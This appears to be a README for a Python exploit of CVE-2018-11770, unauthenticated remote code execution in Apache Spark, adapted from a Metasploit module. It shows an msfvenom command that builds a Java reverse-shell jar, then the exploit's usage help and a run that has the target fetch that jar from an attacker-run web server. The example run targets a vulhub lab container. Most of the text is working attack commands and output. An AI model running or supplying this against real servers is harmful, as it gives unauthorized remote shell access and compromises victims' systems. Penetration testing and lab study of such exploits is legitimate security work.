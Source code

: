 # CVE-2018-11770 Apache Spark Unauthenticated Reverse Shell RCE 
Standalone Python 3 RCE exploit for Apache Spark rewritten from [this Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/spark_unauth_rce.rb)

Exploit POC [explained here](https://medium.com/@Alibaba_Cloud/alibaba-cloud-security-team-discovers-apache-spark-rest-api-remote-code-execution-rce-exploit-a5fdb8fbd173). The exploit code itself is [explained here](https://ivanitlearning.wordpress.com/2019/10/15/ruby-exploit-rewrite-apache-spark-rce/).

Tested with Python 3.7 [on this target](https://github.com/vulhub/vulhub/tree/master/spark/unacc).

## Usage:
```
root@Kali:~/Infosec/RubyStuff/Apache-Spark-RCE# msfvenom -p java/shell_reverse_tcp LHOST=192.168.92.134 LPORT=4444 -f jar -o payload/exploit.jar
Payload size: 7550 bytes
Final size of jar file: 7550 bytes
Saved as: payload/exploit.jar

root@Kali:~/Infosec/RubyStuff/Apache-Spark-RCE# ./CVE-2018-11770.py -h
usage: CVE-2018-11770.py [-h] [-httpdelay HTTPDELAY] -rhost RHOST
                         [-rport RPORT] -srvhost SRVHOST [-srvport SRVPORT]
                         [-uripath URIPATH] -payload PAYLOAD

Call the exploit like this: 
./CVE-2018-11770.py -httpdelay 10 -rhost 192.168.92.153 -rport 6066 -srvhost 192.168.92.134 -srvport 8080 -uripath path -payload exploit.jar

Required arguments:
  -rhost RHOST          Target host running Apache Spark eg. 192.168.92.153
  -srvhost SRVHOST      The local host to listen on. This must be an address on the local machine that Apache Spark can reach eg 192.168.92.134
  -payload PAYLOAD      Path to the malicious jar. eg dir/exploit.jar

Optional arguments:
  -httpdelay HTTPDELAY  Number of seconds the web server will wait before termination. Default: 10s
  -rport RPORT          Target port running Apache Spark. Default: 6066
  -srvport SRVPORT      The local port to listen on. Default: 8080
  -uripath URIPATH      The URI path for Webserver to serve for this exploit Default: path  as in eg. http://192.168.92.134/path

root@Kali:~/Infosec/RubyStuff/Apache-Spark-RCE# ./CVE-2018-11770.py -rhost 192.168.92.153 -srvhost 192.168.92.134 -payload payload/exploit.jar 
Started Web server...
Sending the payload to the server...
```

